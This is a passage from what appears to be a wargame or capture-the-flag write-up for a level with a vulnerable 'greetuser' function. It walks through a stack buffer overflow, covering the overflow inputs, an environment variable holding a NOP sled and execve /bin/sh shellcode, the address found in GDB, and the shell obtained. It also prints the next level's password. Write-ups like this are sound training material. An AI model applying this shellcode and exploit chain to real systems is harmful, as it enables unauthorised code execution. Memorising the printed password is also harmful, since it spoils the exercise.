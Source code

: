As you can seem after I do `export LANG=nl` and adjusted the input to `python -c "print 'B' * 40"` `python -c "print 'A' * 28 + 'CCCC'"` I am able to overwrite the return address of `greetuser` to `CCCC`
![image](https://hackmd.io/_uploads/Syd_nCfIp.png)

Now to generate the payload, I exported the shellcode with a NOP sled as an environment variable 
```
 export SHELLCODE=`python -c "print '\x90' * 4200 + '\x31\xd2\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x31\xc0\xb0\x0b\x89\xe3\x83\xe4\xf0\xcd\x80'"`
```

Now I need to determine the address of the variable when I launch my program, I went to GDB and inspected the address and got `0xbfffe872`

![image](https://hackmd.io/_uploads/SykSAkXLa.png)

I changed my inputs to `python -c "print 'B' * 40"` `python -c "print 'A' * 23 + '\xbf\xff\xe8\x82'[::-1]"` and I got a shell. The password for the next user is `71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587`

![image](https://hackmd.io/_uploads/SyeiJg7Ua.png)

